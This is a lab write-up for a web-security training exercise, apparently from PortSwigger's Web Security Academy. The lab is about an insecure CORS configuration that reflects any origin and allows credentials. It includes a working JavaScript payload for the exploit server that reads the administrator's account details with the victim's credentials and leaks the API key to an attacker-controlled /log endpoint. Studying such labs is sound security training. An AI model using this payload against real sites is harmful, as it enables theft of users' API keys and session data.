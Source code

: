 
This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter


1. Log in with the provided credentials.

2. Observe that there is a request that asks for all the user details, and notice it responds with the API key. Also, in the response there is the header *Access-Control-Allow-Credentials* which suggests it may supports CORS. 

<img width="1448" height="510" alt="image" src="https://github.com/user-attachments/assets/84d3aa00-d768-4d14-966b-75aabfe23e54" />

3. In the repeater add the header `Origin:https://test.com` observe that the header *Access-Control-Allow-Credentials* reflects your Origin header.

<img width="1448" height="470" alt="image" src="https://github.com/user-attachments/assets/1059f7c9-bac6-42c3-831a-abf9933a5262" />

4. In the exploit server input this code 

`<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0add00550418535a80c39f1000eb000a.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>`


and deliver it to the victim, you will see that in the access log it will respond with the API key of the administrator.
